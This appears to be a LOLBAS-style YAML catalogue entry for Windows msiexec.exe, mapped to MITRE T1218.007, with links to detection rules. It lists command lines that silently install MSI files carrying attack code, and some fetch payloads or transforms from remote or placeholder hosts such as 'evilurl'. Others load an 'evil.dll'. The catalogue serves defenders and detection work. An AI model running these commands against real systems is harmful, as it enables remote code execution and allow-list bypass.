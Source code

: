 ```yaml
---
Name: Msiexec.exe
Description: Used by Windows to execute msi files
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: msiexec /quiet /i cmd.msi
    Description: Installs the target .MSI file silently.
    Usecase: Execute custom made msi file with attack code
    Category: Execute
    Privileges: User
    MitreID: T1218.007
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: MSI
  - Command: msiexec /q /i http://192.168.100.3/tmp/cmd.png
    Description: Installs the target remote & renamed .MSI file silently.
    Usecase: Execute custom made msi file with attack code from remote server
    Category: Execute
    Privileges: User
    MitreID: T1218.007
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: MSI
      - Execute: Remote
  - Command: msiexec /y "C:\folder\evil.dll"
    Description: Calls DllRegisterServer to register the target DLL.
    Usecase: Execute dll files
    Category: Execute
    Privileges: User
    MitreID: T1218.007
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: DLL
      - Execute: Remote
  - Command: msiexec /z "C:\folder\evil.dll"
    Description: Calls DllUnregisterServer to un-register the target DLL.
    Usecase: Execute dll files
    Category: Execute
    Privileges: User
    MitreID: T1218.007
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: DLL
      - Execute: Remote
  - Command: msiexec /i "https://trustedURL/signed.msi" TRANSFORMS="https://evilurl/evil.mst" /qb
    Description: Installs the target .MSI file from a remote URL, the file can be signed by vendor. Additional to the file a transformation file will be used, which can contains malicious code or binaries. The /qb will skip user input.
    Usecase: Install trusted and signed msi file, with additional attack code as transformation file, from a remote server
    Category: Execute
    Privileges: User
    MitreID: T1218.007
    OperatingSystem: Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: Remote
Full_Path:
  - Path: C:\Windows\System32\msiexec.exe
  - Path: C:\Windows\SysWOW64\msiexec.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_msiexec_web_install.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_msiexec_masquerading.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_network_connection_from_windows_binary.toml
  - Splunk: https://github.com/splunk/security_content/blob/18f63553a9dc1a34122fa123deae2b2f9b9ea391/detections/endpoint/uninstall_app_using_msiexec.yml
  - IOC: msiexec.exe retrieving files from Internet
Resources:
  - Link: https://pentestlab.blog/2017/06/16/applocker-bypass-msiexec/
  - Link: https://twitter.com/PhilipTsukerman/status/992021361106268161
  - Link: https://badoption.eu/blog/2023/10/03/MSIFortune.html
Acknowledgement:
  - Person: netbiosX
    Handle: '@netbiosX'
  - Person: Philip Tsukerman
    Handle: '@PhilipTsukerman'
---
```

